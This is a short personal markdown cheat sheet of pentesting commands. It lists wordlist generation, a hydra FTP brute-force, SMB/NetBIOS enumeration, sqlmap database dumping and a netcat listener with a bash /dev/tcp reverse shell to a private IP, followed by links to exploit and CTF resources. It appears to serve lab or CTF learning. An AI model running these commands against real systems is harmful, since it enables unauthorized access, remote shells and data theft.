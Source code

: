 ```yaml
---
layout: page
title:  "Pentesting tools"
permalink: "pentesting-tricks.html"
tags: [security, pentesting]
summary: ""
---
```


* Decode base64: `echo ‘base64 encoded text’ | base64 -d`
* Create a dictionary from words on a webpage: `cewl http://test.com -w /root/tmp/dict.txt`
* FTP bruteforce: `hydra -L dict.txt -P dict.txt 192.168.1.104 ftp`
* Netbios name scanner: `nbtscan $IP`
* `rpcclient -U "user" $IP`
* `enum4linux $IP`
* ROT13: `rahash2 -E rot -S s:13 -s ‘A string\n’`
* Netcat and bash redirection:
  - Attacker: `nc -nlvp 4444`
  - Victim: `bash -i >& /dev/tcp/192.168.33.129/4444 0>&1`
* List all process listening on the network: `netstat -plant`
* Find process bound to a TCP port: `lsof -i TCP`

* Find all databases: `sqlmap -u url --dbs --batch`
* Dump data for a specific database: `sqlmap -u url --dump -D database_name`

## Resources and references
* [LittleBlackBox tool](https://github.com/devttys0/littleblackbox/tree/master/docs)
* [Linux exploit suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester/blob/master/README.md)
* [Windows exploit suggester](https://github.com/bitsadmin/wesng)
* [RTP streams tool by GoogleProjectZero](https://github.com/googleprojectzero/Street-Party)
* [CTF resources](https://ctfs.github.io/resources/)
* [2 of diamonds Metasploit CTF writeup](https://www.tinkerfairy.net/2-of-diamonds.txt)
* [Schneider-Electric Automation Server](https://www.hackers-arise.com/single-post/2016/07/25/Mr-Robot-Hacks-How-fsociety-Hacked-of-the-SmartHome-of-The-Evil-Corp-Exec)
* [Word exploitation](https://www.hackers-arise.com/single-post/2018/03/05/Metasploit-Basics-Part-11-Exploiting-Fileformat-Vulnerabilities-in-MS-Office)
* [Techniques for bypassing Python sandboxes](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)
* [IP address localization from Python](https://www.hackers-arise.com/amp/2016/08/29/how-to-find-the-exact-location-of-any-ip-address?__twitter_impression=true)